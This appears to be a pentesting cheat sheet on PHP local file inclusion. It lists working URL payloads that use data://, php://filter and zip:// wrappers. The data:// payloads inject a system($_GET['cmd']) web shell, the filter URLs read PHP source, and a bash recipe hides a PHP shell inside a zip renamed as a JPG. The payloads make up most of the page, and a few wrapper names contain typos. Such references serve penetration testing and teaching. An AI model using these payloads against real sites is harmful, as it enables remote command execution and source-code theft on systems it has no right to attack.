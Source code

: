 ## Local File Inclusion \(LFI\)

Its similar to Path Traversal but not exactly the same, the difference is, in file inclusion if we include a **PHP** it will be interpreted and executed while in path traversal not.

### PHP Wrappers

PHP provides several protocols wrappers that we can use to exploit path traversal and local file inclusion vulnerabilities. These filters give us additional flexibility when attempting to inject PHP code via LFI vulnerabilities.

#### Wrapper data://

Used to embed inline data as part of the URL with plaintext or base64.

```text
/include.php?file=data:text/plain,<?php system($_GET["cmd"]);?>&cmd=id
/include.php?file=data:,<?php system($_GET["cmd"]);?>&cmd=id
/include.php?file=data:;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7Pz4=&cmd=id
```

#### Wrapper filter://

Used to encode/convert files. Usefull to read php files. The part of `php://filte`r is case insensitive.

```text
/include.php?file=php://filter/read=string.rot13/resource=file.php
/include.php?file=php://filter/conver.base64-encode/resource=file.php
/include.php?file=pHp://Filter/conver.base64-encode/resource=file.php
/include.php?file=php://filter/zlib.deflate/convert.base64-encode/resource=file.php
```

To read the compression data you need to decode the base64 and read the resulting data using:

```text
php -a
readfile('php://filter/zlib.inflate/resource=test.deflated');
```

#### Wrapper zip://

Upload a Zip file with a PHPShell inside and access it.

```bash
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php

http://example.com/index.php?page=zip://shell.jpg%23payload.php
```

#### Wrapper expect://

Used to execute code.
